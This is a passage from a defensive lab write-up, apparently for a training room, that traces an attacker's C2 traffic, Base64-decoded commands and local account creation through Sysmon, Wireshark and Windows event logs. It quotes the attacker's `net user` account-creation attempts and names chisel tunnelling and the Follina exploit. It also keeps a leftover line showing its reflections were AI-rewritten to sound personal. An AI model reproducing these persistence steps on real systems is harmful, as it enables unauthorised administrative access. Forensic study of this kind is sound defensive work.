

### 27) The binary connects to a different port from the first C2 connection. What is the port used?

In Timeline Explorer, I searched for the `final.exe` file. After `final.exe` ran, I found a network connection event with Sysmon Event ID 3. The process ID of `final.exe` and the process ID in the network connection were the same.



## Account Creation and Persistence

### 28) Upon achieving SYSTEM access, the attacker then created two users. What are the account names?

I used Wireshark and applied the filter `ip.addr == 192.168.254.107 and http`. I could see that the input from the command-and-control server was shown as the output of the GET request, while the output sent back to the C2 server was included in the URI. Both were encoded in Base64 format.



There were many commands executed before the attacker added the two users. The commands and their output were encoded in Base64, so I used CyberChef to decode them.





I also checked the `windowsevent.evtx` file and filtered for Event ID `4720` to confirm this.

### 29) Prior to the successful creation of the accounts, the attacker executed commands that failed in the creation attempt. What is the missing option that made the attempt fail?

Before this, the attacker was repeatedly running `net user shuna [REDACTED]` or `net user shion [REDACTED]` and checking whether the users were added by running the `net users` command.

All the attacker had to do was add one more option so that a user would be created if the account did not already exist.

### 30) The attacker added one of the accounts to the local Administrators group. What is the command used by the attacker?

If we follow the same filter in Wireshark, we can see the executed command in decoded format.

### 31) Based on Windows Event Logs, the account was successfully added to a sensitive group. What is the Event ID that indicates the addition to a sensitive local group?

I filtered the Windows log file for Event ID `4732`. This event is logged whenever a user account is added to a security-enabled local group.



### 32) After the account creation, the attacker executed a technique to establish persistent administrative access. What is the command executed by the attacker to achieve this?

According to the timestamp, the process happened before the account creation, not after it. It also had the same parent process, which was `final.exe`.



Here's the "What I Learned" section rewritten in bullet points with a more personal, human tone:

## What I Learned

- Following a PID and its parent PID made the whole investigation feel less like guesswork and more like actually tracing a story step by step.

- Sysmon events that look unrelated at first — a DNS query, a file creation, a network connection — start to make sense once you line them up by time and PID.

- Wireshark and the Windows/Sysmon logs each show different pieces of the puzzle; I needed both to see the full picture, since query parameters and raw HTTP traffic only show up properly in Wireshark.

- This room finally made the difference between a reverse SOCKS proxy and a reverse shell click for me, especially seeing chisel used to tunnel into internal services instead of just popping a shell.

- I didn't need to guess a CVE from the process name alone — describing the behavior (WINWORD.EXE spawning a PowerShell download) was enough to land on Follina almost immediately.

